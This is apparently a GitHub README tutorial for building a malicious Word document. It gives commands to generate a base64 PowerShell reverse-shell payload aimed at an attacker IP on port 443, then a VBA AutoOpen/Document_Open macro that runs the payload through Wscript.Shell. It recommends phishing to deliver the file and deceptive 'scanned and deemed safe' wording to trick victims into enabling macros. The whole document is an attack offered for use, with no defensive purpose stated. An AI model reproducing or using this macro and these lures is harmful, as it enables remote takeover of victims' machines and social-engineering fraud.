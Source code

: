 # Creating-a-Malicious-doc

As we know that how important documents are in a company. We can create a malicious macro using MS Word which leads to create a doc file contain our malicious code, if any user open that doc file the payload triggred and attacker gets a reverse shell. Phishing is the best way to send someone a malicious document.

# Exploitation

### Generate a powershell base64 encoded payload using [newpayloadgeneration.py](https://github.com/k4sth4/Creating-a-Malicious-doc/blob/main/newpayloadgeneration.py)

```markdown
python3 newpayloadgeneration.py 192.168.x.x 443 
```

![OnPaste 20220610-124634](https://user-images.githubusercontent.com/106917304/173011432-8c463a51-ec99-43a9-8b89-b6211a5b58df.png)


### Using [payload.py](https://github.com/k4sth4/Creating-a-Malicious-doc/blob/main/payload.py) to get Shellcode

copy that payload and paste the code on another [payload.py](https://github.com/k4sth4/Creating-a-Malicious-doc/blob/main/payload.py) python script, then run payload.py and get shellcode which we gonna copy and use it on MS Word macro. 

![OnPaste 20220610-125130](https://user-images.githubusercontent.com/106917304/173012315-35773388-26ce-46af-be5a-51be09bd5d3b.png)


```markdown
python3 payload.py
```

![OnPaste 20220610-125234](https://user-images.githubusercontent.com/106917304/173012565-ff31eac9-2d6b-48aa-96ec-47f2c22bd922.png)


### Creating a Macro using MS Word

Now open MS Word goto View --> choose Macro --> open macro --> create a macro, name it MyMacro --> choose option Macros in: Document1(document)

![OnPaste 20220610-125805](https://user-images.githubusercontent.com/106917304/173013461-6408bd9a-1c37-4db2-890e-f6684fa49b83.png)


We need macro language to create a malicious macro.
```markdown
Sub AutoOpen() 

MyMacro 

End Sub 

Sub Document_Open() 

MyMacro 

End Sub 

Sub MyMacro() 

    Dim Str As String 

    Str = Str + "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAt" 
    Str = Str + "AE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF" 
    .
    .
    .
    
    
    CreateObject("Wscript.Shell").Run Str 
    
    
    End Sub 
```

Copy and paste that encoded shellcode as shown.


![OnPaste 20220610-130325](https://user-images.githubusercontent.com/106917304/173014460-978bd7d2-ba8d-460a-bc6e-64b859c68d9f.png)


![OnPaste 20220610-130348](https://user-images.githubusercontent.com/106917304/173014522-4be0bd4e-f19c-48b1-beef-3907617d82a4.png)


NOTE: I'll give my doc name project.doc and remember to choose save type as Word 97-2003 Document. 


For this to work user must click on Enable Content, in real world usually saying something along the lines of "Security product XYZ has scanned the content and deemed it to be safe.

